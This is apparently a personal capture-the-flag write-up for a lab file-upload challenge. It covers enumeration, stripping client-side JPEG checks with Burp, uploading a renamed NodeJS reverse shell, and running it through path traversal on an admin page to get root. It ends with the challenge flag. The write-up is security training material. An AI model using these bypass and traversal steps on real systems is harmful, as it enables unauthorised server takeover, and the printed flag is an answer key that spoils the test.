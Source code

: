 ==Upload Vulns Challenge   Flutter Aug 13 2021===


## Enumeration ##

--------------------------------------
	Visiting jewel.uploadvulns.thm
--------------------------------------

wappalyzer

	Web Frameworks: Express

	Programming Languages: Node.js

	Web Servers: Express, Nginx 1.17.6

	JS Libraries: jQuery 3.5.1

	Reverse Proxies: Nginx 1.17.6


curl http://jewel.uploadvulns.thm/ > target_sourcecode

	<!DOCTYPE html>
	<html>
		<head>
			<title>Jewel</title>
			<meta charset="utf-8">
			<meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
			<link type="text/css" rel="stylesheet" href="assets/css/style.css">
			<link type="text/css" rel="stylesheet" href="assets/css/cinzel.css">
			<link type="text/css" rel="stylesheet" href="assets/css/exo.css">
			<link type="text/css" rel="stylesheet" href="assets/css/icons.css">
			<link type="image/x-icon" rel="shortcut icon" href="assets/favicon.ico">
			<script src="assets/js/jquery-3.5.1.min.js"></script>
			<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
			<script src="assets/js/upload.js"></script>
			<script src="assets/js/backgrounds.js"></script>
		</head>
		<body>
			<div id="one" class="background"></div>
			<div id="two" class="background" style="display:none;"></div>
			<div id="three" class="background" style="display:none;"></div>
			<div id="four" class="background" style="display:none;"></div>
			<main>
				<object ondragstart="return false;" ondrop="return false;" id="title" data="/assets/title.svg" type="image/svg+xml"></object>
				<p>Have you got a nice image of a gem or a jewel?<br>Upload it here and we'll add it to the slides!</p>
				<button class="Btn" id="uploadBtn"><i id="uploadIcon" class="material-icons">backup</i> Select and Upload</button>
				<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
			</main>
			<p id="responseMsg" style="display:none;"></p>
		</body>
	</html>		

- Line 7-15

		<link type="text/css" rel="stylesheet" href="assets/css/style.css">
		<link type="text/css" rel="stylesheet" href="assets/css/cinzel.css">
		<link type="text/css" rel="stylesheet" href="assets/css/exo.css">
		<link type="text/css" rel="stylesheet" href="assets/css/icons.css">
		<link type="image/x-icon" rel="shortcut icon" href="assets/favicon.ico">
		<script src="assets/js/jquery-3.5.1.min.js"></script>
		<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
		<script src="assets/js/upload.js"></script>
		<script src="assets/js/backgrounds.js"></script>
	
> sourced CSS and JS from directory "assets/"

- Line 14

		<script src="assets/js/upload.js"></script>
	
> let's check that out

- /assets/js/upload.js 
	
		$(document).ready(function(){let errorTimeout;const fadeSpeed=1000;function setResponseMsg(responseTxt,colour){$("#responseMsg").text(responseTxt);if(!$("#responseMsg").is(":visible")){$("#responseMsg").css({"color":colour}).fadeIn(fadeSpeed)}else{$("#responseMsg").animate({color:colour},fadeSpeed)}clearTimeout(errorTimeout);errorTimeout=setTimeout(()=>{$("#responseMsg").fadeOut(fadeSpeed)},5000)}$("#uploadBtn").click(function(){$("#fileSelect").click()});$("#fileSelect").change(function(){const fileBox=document.getElementById("fileSelect").files[0];const reader=new FileReader();reader.readAsDataURL(fileBox);reader.onload=function(event){

			//Check File Size
			if (event.target.result.length > 50 * 8 * 1024){
				setResponseMsg("File too big", "red");			
				return;
			}
			//Check Magic Number
			if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
				setResponseMsg("Invalid file format", "red");
				return;	
			}
			//Check File Extension
			const extension = fileBox.name.split(".")[1].toLowerCase();
			if (extension != "jpg" && extension != "jpeg"){
				setResponseMsg("Invalid file format", "red");
				return;
			}


		const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};$.ajax("/",{data:JSON.stringify({name:fileBox.name,type:fileBox.type,file:event.target.result}),contentType:"application/json",type:"POST",success:function(data){let colour="";switch(data){case "success":colour="green";break;case "failure":case "invalid":colour="red";break}setResponseMsg(text[data],colour)}})}})});
		
> Client side filters!<br>Will remove later with Burp 

- Line 26

	<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
		
> Client-Side filtering for MIME type "image/jpeg"


- Checking dev tools on site finds the background images are sourced from directory /content 
	
> may be where our uploads go


gobuster dir -u http://jewel.uploadvulns.thm/ -w directory-list-2.3-medium.txt -o gobuster_jewel

	/content (Status: 301)
	/modules (Status: 301)
	/admin (Status: 200)
	/assets (Status: 301)
	/Content (Status: 301)
	/Assets (Status: 301)
	/Modules (Status: 301)
	/Admin (Status: 200)

> 301 redirects are 404 errors

/admin panel

	Admin Page

	As a reminder: use this form to activate modules from the /modules directory.

	Enter filename to execute
	
> seems to be a page to execute files on the server located under /modules



------------
	Burp
------------

Intercepting requests and responses

Intercept of /assets/js/upload.js to remove client-side filters

	//Check File Size
		if (event.target.result.length > 50 * 8 * 1024){
			setResponseMsg("File too big", "red");			
			return;
		}
	//Check Magic Number
		if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
			setResponseMsg("Invalid file format", "red");
			return;	
		}
	//Check File Extension
		const extension = fileBox.name.split(".")[1].toLowerCase();
		if (extension != "jpg" && extension != "jpeg"){
			setResponseMsg("Invalid file format", "red");
			return;
		}


Uploading reverse shell for NodeJS from PayloadsAllTheThings
	
> renamed it "cat.jpg"<br>Success!
	
Going to http://jewel.uploadvulns.thm/content/cat.jpg

> hmm nothing, maybe they alter the file names

gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist -x jpg

	/ABH.jpg (Status: 200)
	/LKQ.jpg (Status: 200)
	/OXW.jpg (Status: 200)
	/QOY.jpg (Status: 200)
	/SAD.jpg (Status: 200)
	/UAD.jpg (Status: 200)

QOY.jpg returns "contains errors", this is our shell, but it didn't run?

If /admin panel runs modules from the /modules dir, what if we try to move out of the /modules dir


Starting nc listener
executing ../content/QOY.jpg

> Success!

## RCE ##

whoami
	
	root
id

	uid=0(root) gid=0(root) groups=0(root)

cat /var/www/flag.txt returned flag
	
*Flag Found*<details>
<summary>Spoiler</summary>
	
> /var/www/flag.txt:

	THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}

</details>
